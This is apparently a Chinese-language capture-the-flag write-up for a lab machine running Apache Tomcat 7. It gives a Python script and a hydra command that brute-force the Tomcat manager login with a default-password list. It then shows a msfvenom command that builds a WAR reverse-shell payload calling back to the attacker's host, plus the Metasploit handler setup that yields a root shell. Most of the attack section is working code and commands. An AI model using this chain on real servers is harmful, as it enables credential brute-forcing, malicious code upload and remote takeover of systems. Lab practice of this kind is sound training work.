 ```yaml
---
title: jerry（apache tomcat的暴力破解方式）
categories:
- training
tags:
- training
---
```


## info enum
```
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

Apache Tomcat/7.0.88
```
[apache登陆，以前遇到过](https://whale3070.github.io/training/2018/10/29/ch4inrulz-Apache-.htaccess%E5%8F%88%E6%98%AF%E5%A5%97%E8%B7%AF/)

当时采取的方式是，通过python脚本，将字典处理为“admin:admin”类似的形式，然后再编码一次。

方（偷）便（懒）起见，用burp intruder模块爆破。

缺点：如果字典过大，burp总是会卡死==

现在又遇到了apache认证，观察以下数据包。
```
GET /manager/html HTTP/1.1

Host: 10.10.10.95:8080

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Referer: http://10.10.10.95:8080/

Connection: close

Upgrade-Insecure-Requests: 1

Authorization: Basic MTIzMTIzOjMyMTIz
```
## 暴力破解脚本
```
import base64
import requests

url = "http://10.10.10.95:8080/manager/html"
S = requests.Session()

user = open("/usr/share/wordlists/tomcat-betterdefaultpasslist.txt","r")

for each in user.readlines():

	key = base64.b64encode(each)

	what_the_fuck_pass = "Basic "+key

	headers={ 'Host': '10.10.10.95:8080',\

'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0',\

'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',\

'Accept-Language': 'en-US,en;q=0.5',\

'Referer': 'http://10.10.10.95:8080/',\

'Connection': 'close',\

'Upgrade-Insecure-Requests': '1',\

'Authorization': what_the_fuck_pass

}

	send_pass = S.get(url,headers=headers)

	if send_pass.status_code == '200':

		print key

		break

	else:

		#print headers

		print key+"--error"

user.close()
```
## hydra
```
apt search seclists
apt-get install seclists
cd /usr/share/seclists/
find . | grep -i tomcat
hydra -C Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
```
获得弱密码，就可以登陆服务器

## 上传命令执行脚本
[曾经做过war类型文件上传，获取shell](https://whale3070.github.io/training/2018/06/02/x/)

war file是打包好的java代码。select war file to upload

用msfvenom生成war payload

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=kali-ip LPORT=9001 -f war -o xx.war`

## msfvenom
它用于生成payload。[参考资料](http://www.freebuf.com/sectool/72135.html)

`msfvenom -l payload` 查看所有攻击载荷

`msfvenom -l formats`

## 获取shell
```
msfconsole
use exploit/multi/handler/
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0 设置监听的网卡/端口
set LPORT 9001
exploit -j 
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-27/1.PNG)
当上传成功xx.war，就可以访问以下地址，获得一个shell。

`http://target.com:8080/xx/krnlxctxgebr.jsp`

```
sessions -i 1
getuid
shell
已经获得root权限
```
